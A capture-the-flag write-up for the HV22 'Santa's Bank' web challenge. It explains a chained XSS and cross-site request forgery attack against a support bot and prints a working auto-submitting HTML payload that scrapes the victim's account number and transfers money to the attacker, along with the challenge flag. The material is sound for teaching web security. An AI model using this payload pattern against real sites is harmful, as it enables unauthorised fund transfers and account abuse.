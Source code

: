 ```yaml
---
title: "[HV22.14] Santa's Bank"
date: 2022-12-14 22:24:31 +0100
tags: HV22 CTF web medium xss xsrf cors
categories: HV22 medium
sidebar:
  nav: "hv22"
---
```


Santa has lost faith and trust in humanity and decided to take matters in his own hands: He opens a new bank.

He announced the release with the following message:

`For Christmas, our bank has a generous offer: save 100 € in your savings account and get a promo code!`

Due to mistrust, he didn't connect his bank and its employees to the internet.

Can you hack bank?

# Solution

Okay, another website, let's fire up burp, register an account and see what's inside. I get an account number, a transfer function (where I can enter from, to and amount), the promotion info, a support function (where I enter an URL and the support will have a look on it) and log out.

![logged in view](/assets/hv22/hv22_14_loggedin.png)

A few things are suspicious here. First, why does the transfer function offer to specify the from-account? Usually, this is given since I'm logged in to my account and usually are only allowed to send money from my account to others. I created a second account and tried to send money from the other account to my account, but due to a lack of balance it didn't work out.

Second thing is the support function. Why would the support team click on links I provide? To see if this works, I simply created a webserver using `python3 -m http.server` and sent the support browser to my site. It works!

![support connects to my machine](/assets/hv22/hv22_14_httpserver.png)

Now the question is what we can do from here. I was stuck a long time since I tried to somehow exfiltrate data. I recognized I'm blocked by CORS and went down a few rabbit holes trying to circumvent it. I didn't look for an easier way in the beginning, but using a simple form, you can POST data to any address you like. Didn't know that this doesn't care for CORS, but apparently it doesn't.

The basic idea is to send the support team to their own site, grabbing their account number and sending money from their account to mine. To do this, we need to find another vulnerability. Namely one which executes javascript in their browser. After fiddling around with the website, I found that the `to` field of the transfer function is vulnerable to XSS.

```html
<html>
  <body onload="document.forms[0].submit()">
    <form
      action="https://87356ece-c334-4b28-87c7-3a5878f8ff15.idocker.vuln.land/transfer"
      method="POST"
    >
      <input name="from" value="a" />
      <input
        name="to"
        value="
                <script>
                        fetch('/')
                                .then(response => response.text())
                                .then((response) => {
                                        var acct = response.match(/[0-9A-F]{20}/)[0];
                var target = 'F9D4BB0A26E48BCEBECB';
                fetch('/transfer',
                        {
                                method: 'POST',
                                body: 'from=' + acct + '&to=' + target + '&amount=100',
                                headers: {
                                        'Content-Type': 'application/x-www-form-urlencoded'
                                }
                        })
                                })</script>
                "
      />
      <input name="amount" value="100" />
    </form>
  </body>
</html>
```

This is what I threw together. Basically, it creates a form which uses the XSS vulnerability in the `to` field (from and amount are irrelevant) and submits it right away. So the victims browser is redirected to the `action` value (transfer page) and the script from the `to` field gets executed. This script fetches the start screen (which displays the account number), grabs that by regex, and sends a POST to the `/transfer` endpoint, sending 100 from the support account to my target account.

After waiting for a moment for the support team to access my page, I can see that my balance now is at 100$ and under Promotion, I see my flag `HV22{XSS_XSRF_TOO_MANYS_XS}`

![flag](/assets/hv22/hv22_14_flag.png)
